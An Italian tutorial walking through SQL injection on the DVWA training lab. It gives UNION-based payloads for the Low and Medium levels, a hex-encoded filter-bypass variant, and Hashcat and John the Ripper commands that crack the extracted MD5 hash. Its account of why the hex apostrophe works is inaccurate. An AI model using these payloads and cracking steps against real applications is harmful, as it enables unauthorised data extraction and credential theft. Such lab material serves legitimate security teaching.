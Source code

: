 # **Guida: SQL Injection su DVWA (Low e Medium)**

Questa guida fornisce istruzioni passo-passo per eseguire una SQL Injection sulla piattaforma **DVWA (Damn Vulnerable Web Application)**. L'obiettivo è estrarre i dati sensibili dell'utente **Pablo** in modalità **Low** e **Medium**, e decifrare la sua password hash **MD5**.

---

## **Requisiti**

1. **DVWA Configurato**: Assicurati che la piattaforma DVWA sia correttamente installata e configurata.
2. **Accesso a un Browser o Terminale** per inviare richieste SQL Injection.
3. **Livelli di Sicurezza** configurati in DVWA:
   - **Low** per la prima parte.
   - **Medium** per la seconda parte.

---

## **Parte 1: SQL Injection in Modalità Low**

### **Obiettivo**
Estrarre i dati dell'utente **Pablo**, inclusa la sua password hash MD5.

### **Passaggi**

1. **Vai alla pagina di SQL Injection**:
   - URL: `http://<IP_DVWA>/dvwa/vulnerabilities/sqli/`

2. **Trova i dati dell'utente Pablo**:
   Inserisci il seguente payload nel campo **User ID**:
   ```sql
   ' UNION SELECT user, password FROM dvwa.users WHERE user='Pablo' -- 
   ```

3. **Risultati attesi**:
   - Nome utente: `Pablo`
   - Password hash: `0d107d09f5bbe40cade3de5c71e9e9b7`

4. **Decifra la password hash**:
   - L'hash `0d107d09f5bbe40cade3de5c71e9e9b7` corrisponde alla password `letmein`.
   - Puoi utilizzare uno strumento online come [https://crackstation.net](https://crackstation.net) per decifrare l'hash.

---

## **Parte 2: SQL Injection in Modalità Medium**

### **Obiettivo**
Superare i controlli di filtraggio e ottenere i dati di Pablo utilizzando payload in formato hexadecimal.

### **Passaggi**

1. **Vai alla pagina di SQL Injection**:
   - URL: `http://<IP_DVWA>/dvwa/vulnerabilities/sqli/`

2. **Trova i dati di Pablo**:
   Usa il seguente payload nel campo **User ID**:
   ```sql
   0x27 UNION SELECT user, password FROM dvwa.users WHERE user=0x5061626c6f -- 
   ```
   
   - `0x27` è il formato hexadecimal per l'apostrofo (`'`).
   - `0x5061626c6f` è il formato hexadecimal per `Pablo`.

3. **Risultati attesi**:
   - Nome utente: `Pablo`
   - Password hash: `0d107d09f5bbe40cade3de5c71e9e9b7`

4. **Decifra la password hash**:
   - Decifra l'hash `0d107d09f5bbe40cade3de5c71e9e9b7` utilizzando uno strumento come [Crackstation](https://crackstation.net) per ottenere la password: `letmein`.

---

## **Strumenti Utili**

1. **Siti per decifrare hash MD5**:
   - [Crackstation](https://crackstation.net)
   - [MD5 Decrypt](https://md5decrypt.net)

2. **Tool di cracking**:
   - **Hashcat**:
     ```bash
     hashcat -a 0 -m 0 hash.txt wordlist.txt
     ```
   - **John the Ripper**:
     ```bash
     john --format=raw-md5 --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
     ```

---

## **Conclusione**

Seguendo questa guida, abbiamo dimostrato come eseguire una SQL Injection su DVWA per estrarre i dati dell'utente **Pablo** e decifrare la sua password MD5 `letmein`. Questi test sottolineano l'importanza di proteggere le applicazioni web da vulnerabilità di SQL Injection.

Se hai bisogno di ulteriore supporto o chiarimenti, non esitare a contattarci!
